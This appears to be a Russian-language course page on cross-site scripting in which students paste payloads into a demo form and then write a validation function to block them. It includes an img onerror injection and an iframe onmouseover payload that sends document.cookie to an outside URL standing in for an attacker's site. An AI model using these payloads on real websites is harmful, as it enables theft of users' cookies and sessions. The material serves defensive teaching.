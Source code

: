 # <img src="https://avatars2.githubusercontent.com/u/19735284?s=40&v=4" width="30" title="Ⓒ Irina Fylyppova ( garevna ) 2019"/> XSS

XSS ( Cross-Site Scripting — «межсайтовый скриптинг» ) — атака на веб-систему путем инъекции вредоносного кода
```
( вместо "C" используется "X", чтобы не было путаницы с CSS )
```
    Внедренный код будет выполняться на компьютере пользователя
    Код может пересылать конфиденциальные данные  пользователя  веб-серверу хакера
```
Разновидностей XSS-атак очень много
Частично они отражаются на уровне браузера
В данном примере мы  будем внедрять код при вводе пользовательских данных
и использовать обработчиков событий элементов для запуска внедренного кода
```
[:link: Перейдите по ссылке](https://garevna.github.io/js-samples/#03 'target=_blank')

Откройте  `Chrome DevTools`

Установите точки останова  ( breakpoints ) для того, чтобы
пошагово отслеживать выполнение кода и
вносить изменения в код

1. Скопируйте код ниже и вставьте его в поле ввода элемента input:
```html
<IMG SRC="images/hack.png"
     onerror="document.write ( String.fromCharCode ( 88, 83, 83) )"/>
```
это довольно безобидная "атака", которая просто перезапишет содержимое body

2. Скопируйте код ниже и вставьте его в поле ввода элемента input:
```html
<IFRAME SRC=js/attack.html
        onmouseover="window.open ( 'https://garevna.github.io/js-samples/js/attack.html#' + document.cookie, '_self' )">
</IFRAME>
```
`( с помощью такой строки можно украсть куки с компьютера пользователя, где хранится конфиденциальная информация о нем )`

Обратите внимание, что вместо ссылки ☕ ~~https://garevna.github.io/js-samples/js/attack.html~~

в реальной атаке будет ссылка на сайт ( страницу ) хакера

## 💼

В панели навигации откройте файл **js/index03.js**

Обратите внимание на функцию валидации ввода пользователя  ( **testUserText** )

В случае XSS атаки функция должна заменить текст, введенный пользователем, на сообщение: "*XSS атака отражена*" с указанием текущей даты и времени

***
[:link: securitylab](https://www.securitylab.ru/analytics/432835.php)
[:link: websitesecurity](https://www.acunetix.com/websitesecurity/cross-site-scripting/)
